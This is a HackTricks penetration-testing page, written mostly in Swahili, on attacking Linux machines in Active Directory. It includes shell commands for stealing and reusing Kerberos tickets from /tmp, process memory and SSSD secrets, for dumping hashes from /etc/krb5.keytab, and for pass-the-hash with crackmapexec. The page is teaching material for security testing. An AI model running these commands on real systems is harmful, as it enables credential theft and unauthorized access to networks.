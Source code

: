 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Mashine ya linux inaweza pia kuwepo ndani ya mazingira ya Active Directory.

Mashine ya linux katika AD inaweza kuwa **ikiweka tiketi tofauti za CCACHE ndani ya faili. Tiketi hizi zinaweza kutumika na kutumiwa vibaya kama tiketi nyingine yoyote ya kerberos**. Ili kusoma tiketi hizi utahitaji kuwa mmiliki wa tiketi au **root** ndani ya mashine.

## Enumeration

### AD enumeration kutoka linux

Ikiwa una ufikiaji juu ya AD katika linux (au bash katika Windows) unaweza kujaribu [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) ili kuorodhesha AD.

Unaweza pia kuangalia ukurasa ufuatao kujifunza **njia nyingine za kuorodhesha AD kutoka linux**:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA ni **mbadala** wa chanzo wazi kwa Microsoft Windows **Active Directory**, hasa kwa mazingira ya **Unix**. Inachanganya **LDAP directory** kamili na Kituo cha Usambazaji wa Funguo za MIT **Kerberos** kwa usimamizi unaofanana na Active Directory. Inatumia Mfumo wa **Cheti** wa Dogtag kwa usimamizi wa cheti za CA & RA, inasaidia **uthibitishaji wa hatua nyingi**, ikiwa ni pamoja na kadi za smart. SSSD imeunganishwa kwa michakato ya uthibitishaji wa Unix. Jifunze zaidi kuhusu hiyo katika:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Kucheza na tiketi

### Pass The Ticket

Katika ukurasa huu utapata maeneo tofauti ambapo unaweza **kupata tiketi za kerberos ndani ya mwenyeji wa linux**, katika ukurasa ufuatao unaweza kujifunza jinsi ya kubadilisha muundo wa tiketi hizi za CCache kuwa Kirbi (muundo unaohitajika kutumia katika Windows) na pia jinsi ya kufanya shambulio la PTT:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### Urejeleaji wa tiketi za CCACHE kutoka /tmp

Faili za CCACHE ni muundo wa binary kwa **kuhifadhi akidi za Kerberos** ambazo kawaida huhifadhiwa na ruhusa 600 katika `/tmp`. Faili hizi zinaweza kutambulika kwa **muundo wa jina lao, `krb5cc_%{uid}`,** inayohusiana na UID ya mtumiaji. Kwa uthibitishaji wa tiketi, **kigezo cha mazingira `KRB5CCNAME`** kinapaswa kuwekwa kwenye njia ya faili ya tiketi inayotakiwa, kuruhusu urejeleaji wake.

Orodhesha tiketi ya sasa inayotumika kwa uthibitishaji kwa `env | grep KRB5CCNAME`. Muundo ni wa kubebeka na tiketi inaweza **kurudiwa kwa kuweka kigezo cha mazingira** kwa `export KRB5CCNAME=/tmp/ticket.ccache`. Muundo wa jina la tiketi ya Kerberos ni `krb5cc_%{uid}` ambapo uid ni UID ya mtumiaji.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE ticket reuse from keyring

**Tiketi za Kerberos zilizohifadhiwa katika kumbukumbu ya mchakato zinaweza kutolewa**, hasa wakati ulinzi wa ptrace wa mashine umezimwa (`/proc/sys/kernel/yama/ptrace_scope`). Chombo chenye manufaa kwa kusudi hili kinapatikana kwenye [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), ambacho kinasaidia kutoa kwa kuingiza katika vikao na kutupa tiketi kwenye `/tmp`.

Ili kuunda na kutumia chombo hiki, hatua zilizo hapa chini zinafuatwa:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Hii taratibu itajaribu kuingiza katika vikao mbalimbali, ikionyesha mafanikio kwa kuhifadhi tiketi zilizopatikana katika `/tmp` kwa muundo wa majina `__krb_UID.ccache`.


### CCACHE tiketi matumizi tena kutoka SSSD KCM

SSSD inashikilia nakala ya hifadhidata katika njia `/var/lib/sss/secrets/secrets.ldb`. Funguo inayohusiana inahifadhiwa kama faili iliyofichwa katika njia `/var/lib/sss/secrets/.secrets.mkey`. Kwa kawaida, funguo hiyo inaweza kusomwa tu ikiwa una ruhusa za **root**.

Kuita \*\*`SSSDKCMExtractor` \*\* na vigezo --database na --key vitachambua hifadhidata na **kufichua siri**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**kumbukumbu ya akiba ya sifa za Kerberos inaweza kubadilishwa kuwa faili ya Kerberos CCache** inayoweza kupitishwa kwa Mimikatz/Rubeus.

### Urejeo wa tiketi ya CCACHE kutoka kwa keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Extract accounts from /etc/krb5.keytab

Funguo za akaunti za huduma, muhimu kwa huduma zinazofanya kazi na ruhusa za mzizi, zimehifadhiwa kwa usalama katika faili za **`/etc/krb5.keytab`**. Funguo hizi, kama nywila za huduma, zinahitaji faragha kali.

Ili kukagua maudhui ya faili la keytab, **`klist`** inaweza kutumika. Chombo hiki kimeundwa kuonyesha maelezo ya funguo, ikiwa ni pamoja na **NT Hash** kwa uthibitishaji wa mtumiaji, hasa wakati aina ya funguo inatambulika kama 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Kwa watumiaji wa Linux, **`KeyTabExtract`** inatoa kazi ya kutoa hash ya RC4 HMAC, ambayo inaweza kutumika kwa ajili ya matumizi tena ya hash ya NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Katika macOS, **`bifrost`** hutumika kama chombo cha uchambuzi wa faili za keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Kwa kutumia taarifa za akaunti na hash zilizovunwa, mawasiliano na seva zinaweza kuanzishwa kwa kutumia zana kama **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## References
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
